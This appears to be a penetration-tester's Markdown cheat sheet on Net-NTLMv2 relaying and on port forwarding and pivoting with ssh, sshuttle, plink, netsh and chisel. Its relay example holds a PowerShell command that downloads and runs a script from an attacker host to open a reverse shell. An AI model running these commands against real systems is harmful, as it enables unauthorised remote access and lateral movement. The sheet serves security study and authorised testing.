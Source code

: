 # Net-NTLMv2 Relay
- https://en.hackndo.com/ntlm-relay/
- `impacket-ntlmrelayx`:
  ```bash
  # where `CMD` can be "powershell.exe -c iex(iwr http://[IP]:[Port]/Invoke-PowerShellTcp.ps1 -UseBasicParsing); Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [Port]"
  impacket-ntlmrelayx --no-http-server -smb2support -t [target_IP] -c [CMD]
	```
# Port Forwarding/Tunneling
- <mark>Remote Dynamic Port Forward</mark>
	```bash
	ssh -v -N [USERNAME]@[TARGET] -R [SSH_SERVER_PORT] 
	```
- <mark>sshuttle</mark>
	-  <mark>Local Port Forward</mark>
	```bash
	# Specifying the SSH connection string we want to use, as well as the subnets that we want to tunnel through this connection.
	# Setting up local routes that force traffic through the SSH tunnel, hence no need for `proxychains` anymore.
	# `-D `allows `sshuttle` to run in the background.
	sshuttle -r -D [USERNAME]@[TARGET] [CIDR_Subnet] [CIDR_Subnet] 
	```
- <mark>plink.exe</mark> #windows 
	-  <mark>Local Port Forward</mark>
	```bash
	.\plink.exe -ssh -v -N [USERNAME]@[TARGET] -L [SSH_CLIENT_PORT]:[DESTINATION_SERVER]:[DESTINATION_PORT] 
	```
	- <mark>Remote Port Forward</mark>
	```bash
	.\plink.exe -ssh -v -N [USERNAME]@[TARGET] -R [SSH_SERVER_PORT]:[DESTINATION_SERVER]:[DESTINATION_PORT] 
	```
	- <mark>Dynamic Port Forward</mark>
	```bash
	#sets up your SSH connection as a SOCKS proxy.This can be beneficial if you're in a network that restricts your access to certain sites.
	.\plink.exe -ssh -v -N [USERNAME]@[TARGET] -D [SSH_CLIENT_PORT]
	#However, not all applications natively support routing their traffic through a SOCKS proxy. That's where tools like `proxychains` come into play.
	1. modify the `/etc/proxychains.conf`
	2. proxychains command_you_want_to_run
	```
- <mark>netsh</mark> #windows 
	- Native way that requires **administrative privileges** to create a port forward on Windows.
	```bash
	netsh interface portproxy add v4tov4 listenaddress=[LOCAL_IP] listenport=[LOCAL_PORT] connectaddress=[DESTINATION_SERVER] connectport=[DESTINATION_PORT]
	# Optionally, poke a hole in firewall if necessary.
	netsh advfirewall firewall add rule name="[Rule_Name]" protocol=TCP dir=in localip=[IP] localport=[PORT] action=allow
	```
 - <mark>chisel</mark> 
	 - https://github.com/jpillora/chisel
	- <mark>Local Port Forward</mark>
	```bash
	# Server
	chisel server --port [LOCAL_PORT] --reverse
	# Client
	chisel client [SERVER_IP]:[SERVER_PORT] [LOCAL_PORT]:[DESTINATION_SERVER]:[DESTINATION_PORT]
	```
  ```